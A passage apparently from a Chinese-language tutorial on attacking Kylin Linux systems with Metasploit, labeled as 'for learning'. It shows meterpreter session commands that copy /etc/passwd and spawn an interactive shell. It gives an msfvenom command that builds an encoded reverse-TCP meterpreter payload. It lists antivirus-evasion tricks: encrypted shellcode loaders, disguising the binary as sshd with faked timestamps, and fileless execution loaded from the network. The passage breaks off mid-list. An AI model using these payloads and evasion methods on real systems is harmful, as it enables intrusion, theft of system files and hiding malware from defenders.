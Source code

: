 # 查看系统信息
sysinfo

# 上传文件
upload /root/test.sh /tmp/test.sh

# 下载文件
download /etc/passwd /root/passwd_copy

# 执行命令
execute -f /bin/bash -i
</code></pre>
<hr>
<h2>7. 麒麟系统免杀思路（学习用）</h2>
<p>国产杀软（如麒麟自带安全中心、第三方防病毒）常检测：</p>
<ul>
<li>
<p>ELF 文件特征码</p>
</li>
<li>
<p>可疑网络连接</p>
</li>
<li>
<p>异常内存执行</p>
</li>
</ul>
<p>常用免杀技巧：</p>
<ol>
<li>
<p><strong>编码器混淆</strong></p>
<pre><code class="language-bash">msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -e x86/shikata_ga_nai -i 5 -f elf -o evasion_kylin.elf
</code></pre>
</li>
<li>
<p><strong>自定义加载器</strong>（C/Go/Rust）</p>
<ul>
<li>
<p>将 shellcode 加密后，运行时解密到内存执行。</p>
</li>
</ul>
</li>
<li>
<p><strong>文件名/权限伪装</strong></p>
<ul>
<li>
<p>命名成系统服务二进制文件，如 <code inline="">/usr/bin/sshd</code>，并修改时间戳。</p>
</li>
</ul>
</li>
<li>
<p><strong>无文件执行</strong></p>
<ul>
<li>
<p>使用 bash、python、perl 从网络加载 shellcode，直接内存运行，不落地文件。</p>
</li>
</ul>
</li>